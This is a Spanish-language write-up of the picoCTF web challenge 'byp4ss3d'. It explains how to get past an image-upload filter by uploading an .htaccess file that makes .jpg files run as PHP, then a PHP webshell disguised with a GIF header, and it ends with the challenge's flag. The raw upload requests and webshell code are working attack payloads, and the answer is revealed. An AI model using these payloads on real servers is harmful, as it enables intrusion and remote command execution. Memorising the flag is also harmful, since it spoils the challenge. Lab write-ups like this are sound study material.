



# byp4ss3d PicoCTF (Intermediate)

## Contexto de la maquina

### Trayectoria byp4ss3d

<figure><figcaption></figcaption></figure>

### Descripción

**byp4ss3d** es un reto de tipo web centrado en la explotación de un mecanismo de subida de archivos. La aplicación simula un portal universitario donde los estudiantes deben subir imágenes de sus tarjetas de identificación. El sistema implementa filtros para permitir únicamente archivos de imagen, pero presenta fallos que permiten evadir dichas restricciones y conseguir ejecución remota de comandos (RCE).

**Objetivo del reto**

* Analizar el sistema de subida de archivos.
* Bypassear los filtros implementados.
* Lograr ejecución remota de comandos en el servidor.
* Obtener la flag almacenada en el sistema.

**Tipo de reto**

* Web
* File Upload Bypass
* Remote Code Execution (RCE)

**Habilidades y técnicas evaluadas**

* Análisis de subida de archivos
* Manipulación manual de peticiones HTTP
* Uso de Burp Suite
* Bypass de validaciones por extensión y tipo MIME
* Abuso de `.htaccess`
* Ejecución remota de comandos vía PHP

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

## Despliegue del CTF

En la propia pagina buscaremos el `CTF`, dentro veremos un boton llamado `Launch Instance`, una ves desplegado nos aparecera `here` donde se encuentra el `dominio` junto con el puerto asociado al mismo.

El objetivo de estos `CTFs` es encontrar la `flag` final.

## Bypass archivos + RCE

<figure><figcaption></figcaption></figure>

La descripcion del reto es la siguiente:

```
A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.
```

El escenario plantea un portal de subida de archivos donde únicamente se permiten imágenes. Existe un sistema de filtrado que valida el tipo de archivo, pero el objetivo será **bypassear dicho mecanismo** para conseguir ejecución remota de comandos (RCE) y obtener la flag.

### Análisis inicial de la funcionalidad de subida

Una vez desplegado el reto, se nos proporciona un dominio. Al acceder al mismo, observamos un formulario que permite subir archivos supuestamente limitados a imágenes.

<figure><figcaption></figcaption></figure>

Probamos subiendo una imagen válida (`.jpg`) y el servidor responde:

```
Successfully uploaded!
Access it at: images/image.jpg
```

Esto nos confirma:

* Los archivos se almacenan en el directorio `/images/`
* Se mantiene el nombre original del archivo
* El sistema no renombra ni sanitiza extensiones de forma estricta

### Primer intento: Subida directa de PHP

Intentamos realizar un bypass simple utilizando una extensión alternativa de PHP:

```
------geckoformboundary19e585f72e4e7d1c859fa8d28a10bdd2
Content-Disposition: form-data; name="image"; filename="image.php5"
Content-Type: image/gif

GIF8;
<?php system($_GET['cmd'] ?? 'echo "No se proporcionó comando"'); ?>
------geckoformboundary19e585f72e4e7d1c859fa8d28a10bdd2--
```

El archivo se sube correctamente, pero al acceder a él desde el navegador el código PHP no se ejecuta; el servidor muestra el contenido literal. Esto indica que:

* El servidor probablemente no interpreta `.php5` como ejecutable.
* Existe una restricción a nivel de configuración del servidor (muy posiblemente Apache).

Por tanto, necesitamos un enfoque diferente.

## Bypass mediante `.htaccess`

Tras analizar el comportamiento, observamos que el sistema permite subir archivos sin extensión o con nombres arbitrarios. Esto abre una posibilidad interesante: **subir un archivo `.htaccess`** para modificar el comportamiento del servidor.

Si el servidor utiliza Apache y permite `.htaccess`, podemos forzar que los archivos `.jpg` se interpreten como PHP.

### Subida del `.htaccess`

Interceptamos la petición con **Burp Suite** y modificamos el contenido del archivo para subir lo siguiente:

```
------geckoformboundary19e585f72e4e7d1c859fa8d28a10bdd2
Content-Disposition: form-data; name="image"; filename=".htaccess"
Content-Type: image/jpeg

AddType application/x-httpd-php .jpg
------geckoformboundary19e585f72e4e7d1c859fa8d28a10bdd2--
```

<figure><figcaption></figcaption></figure>

Esta directiva indica a Apache que trate los archivos con extensión `.jpg` como código PHP.

El servidor acepta la subida correctamente.

### Subida de WebShell camuflada como imagen

Ahora reutilizamos la misma petición interceptada para subir un archivo aparentemente legítimo (`shell.jpg`), pero que contenga código PHP embebido:

```
------geckoformboundary19e585f72e4e7d1c859fa8d28a10bdd2
Content-Disposition: form-data; name="image"; filename="shell.jpg"
Content-Type: image/jpeg

GIF89a;
<?php system($_GET['cmd']); ?>
------geckoformboundary19e585f72e4e7d1c859fa8d28a10bdd2--
```

<figure><figcaption></figcaption></figure>

Detalles importantes:

* `GIF89a;` simula la cabecera de una imagen GIF válida.
* El `Content-Type` es `image/jpeg` para cumplir con el filtro.
* El contenido incluye una webshell simple basada en `system()`.

El archivo se sube correctamente.

## Confirmación de RCE

Accedemos al archivo desde el navegador:

```
URL = http://<DOMAIN>:<PORT>/images/shell.jpg?cmd=id
```

Respuesta:

<figure><figcaption></figcaption></figure>

El servidor ejecuta el comando `id`, confirmando que:

* La directiva `.htaccess` está activa.
* El archivo `.jpg` está siendo interpretado como PHP.
* Tenemos ejecución remota de comandos (RCE).

## Obtención de la flag

Dado que el proceso web suele ejecutarse como `www-data`, listamos el contenido de su directorio home:

<figure><figcaption></figcaption></figure>

Identificamos la presencia de la flag y procedemos a leerla:

<figure><figcaption></figcaption></figure>

Y con esto veremos que habremos obtenido la `flag` de forma correcta, por lo que podremos dar por terminado este reto.

> flag.txt

```
picoCTF{s3rv3r_byp4ss_9e7008ba}
```
